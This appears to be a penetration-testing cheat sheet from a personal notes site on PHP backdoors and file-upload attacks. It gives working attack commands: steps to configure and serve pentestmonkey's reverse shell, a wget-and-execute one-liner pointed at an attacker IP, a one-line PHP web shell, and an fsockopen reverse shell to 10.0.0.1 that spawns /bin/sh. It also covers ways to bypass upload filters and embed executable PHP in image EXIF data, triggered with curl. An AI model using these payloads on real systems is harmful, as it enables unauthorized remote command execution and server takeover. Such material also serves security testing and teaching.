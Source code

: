 ```yaml
---
layout: default
title: php
parent: Shells / Reverse Shells
grand_parent: security stuff
nav_order: 2
---
```


1. TOC
{:toc}

## Backdoor Shells

### php-reverse-shell
<small>credit: [pentestmonkey: php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell)</small> 
```bash
# download the repository
git clone https://github.com/pentestmonkey/php-reverse-shell.git

# modify the source so it uses a listener's IP of choice
cd php-reverse-shell
sed -i 's/127.0.0.1/IPADDR/' php-reverse-shell.php

# now the file is ready to be uploaded/downloaded onto the target
# one method is to serve the backdoor from the attacking machine via python's builtin webserver: 
python3 -m http.server
# or
python -m SimpleHTTPServer

# then at the target, download and execute the backdoor
# this one-liner can be used to download the php backdoor and execute it: 
wget 192.168.1.14:/backdoor.php -O /tmp/backdoor.php && php -f /tmp/backdoor.php
```  

---  

### tiniest web shell  
<small>credit: [tiniest web shell ever: 1.php](https://www.pentestpartners.com/security-blog/the-tiniest-php-system-shell-ever/)</small>
```php
<pre> <?=`$_GET[1]`?>
```   
- save this snippet as 1.php and upload it to the webserver. Pass system commands to the variable `1` in the URL as so: `http://192.168.1.14/1.php?1=id`   
   ![](http://192.168.1.16:4000/blog/notes/security-stuff/shells/tinywebshell.png)

---  

### p0wny shell
<small>credit: [p0wny shell: shell.php](https://github.com/flozz/p0wny-shell)</small>
- just upload the file to to the server and visit the file's URL for a complete shell

---

### one-liner
- This php one-liner assumes that the TCP connection uses file descriptor 3: 
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## image upload vulnerabilities 
1. bypass content-type filtering and extension checks:
- try uploading a file.php, intercepting the request and changing the MIME type (i.e. `image/gif` `image/png` `image/jpg` `image/jpeg`)
- try changing the extension to .PHP instead of .php (lowercase vs uppercase)
- try appending additional extensions: ..jpg.php or .php.jpg or .php.foo
- try tiggering the NULL byte: .php%00 or .php%00.jpg (also try: .php%00?) 
- try uploading an image with embedded php: (depends solely on the ability to write to the file: `.htaccess`)
  - Add the following to the .htaccess file:   
	> `AddType application/x-httpd-php .jpg`
	> or `AddType application/x-httpd-php5 .jpg`
  - Append some php code to a valid image file:   
	> `echo '<?php mail("root@localhost", "test" "mic check 1..2..1..2");' >> image.jpg`
  - In some cases, it may be necessary for the PHP code to prefix the image: (i.e. when trying double extensions)  
	> `( echo -n '<?php header("Content-Type: image/jpg"); mail("root@localhost", "test", "mic check..1..2..1..2");?>'; cat original_image.png ) >> image.php.jpg`  
  - Upload the file and visit the image's URL. The image will display and the php code will also execute.
  - Try also embedding the php code somewhere else in the image (i.e. the EXIF data)  
```bash
# delete extra headers
jhead -purejpg file.jpg
# edit EXIF data:
jhead -ce file.jpg
# paste your php code in one line: 
<?=$_GET[0]($_POST[1]);?> 
```
  - It's quickest to use curl to execute the script: 
	`curl -i -X POST "http://127.0.0.1/phppng.png?0=shell_exec" -d "1=id"`

---

## Resources & More 
- <http://nullcandy.com/php-image-upload-security-how-not-to-do-it/>
- <https://phocean.net/2013/09/29/file-upload-vulnerabilities-appending-php-code-to-an-image.html>
- <http://symcbean.blogspot.com/2016/06/local-file-inclusion-why-everything-you.html>
- <https://github.com/wireghoul/htshells>
- <https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/PHP_Configuration_Cheat_Sheet.md>
- <https://suhosin.org/stories/index.html>
 
